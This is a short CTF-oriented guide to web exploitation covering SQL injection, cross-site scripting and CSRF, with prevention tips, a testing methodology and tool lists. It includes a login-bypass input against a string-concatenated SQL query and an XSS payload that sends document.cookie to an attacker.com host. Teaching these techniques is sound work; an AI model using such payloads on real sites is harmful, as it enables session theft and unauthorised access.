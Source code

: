 # Web Exploitation Guide

This guide covers common web exploitation techniques and vulnerabilities that frequently appear in CTF challenges.

## Common Web Vulnerabilities

### SQL Injection

SQL injection occurs when user input is incorrectly filtered and directly included in SQL queries.

#### Example

```sql
# Vulnerable code
query = "SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "'";

# Attack input
username: admin' --
```

#### Tools
- SQLmap
- Burp Suite

#### Prevention
- Use prepared statements
- Input validation and sanitization
- Least privilege database accounts

### Cross-Site Scripting (XSS)

XSS allows attackers to inject client-side scripts into web pages viewed by other users.

#### Types
- **Reflected XSS**: Payload is part of the request
- **Stored XSS**: Payload is stored in the database
- **DOM-based XSS**: Vulnerability exists in client-side code

#### Example Payload

```javascript
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```

### Cross-Site Request Forgery (CSRF)

CSRF tricks users into performing actions they didn't intend to perform.

#### Prevention
- CSRF tokens
- SameSite cookies
- Verify request origin

## Methodology for Web Challenges

1. **Reconnaissance**
   - Check the page source code
   - Look for hidden inputs, comments, or JavaScript files
   - Review cookies and local storage
   - Examine HTTP headers

2. **Mapping the Application**
   - Identify input points
   - Understand the application flow
   - Look for API endpoints
   - Directory enumeration

3. **Vulnerability Assessment**
   - Test for common vulnerabilities
   - Check for insecure configurations
   - Look for outdated components

4. **Exploitation**
   - Craft targeted payloads
   - Chain vulnerabilities when necessary
   - Document your approach

## Tools

| Tool | Purpose |
|------|---------|
| Burp Suite | Web proxy, scanner, and exploitation toolkit |
| OWASP ZAP | Free alternative to Burp Suite |
| Gobuster/Dirbuster | Directory enumeration |
| Nikto | Web server scanner |
| Firefox Developer Tools | Inspect and debug web applications |

## Resources

- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

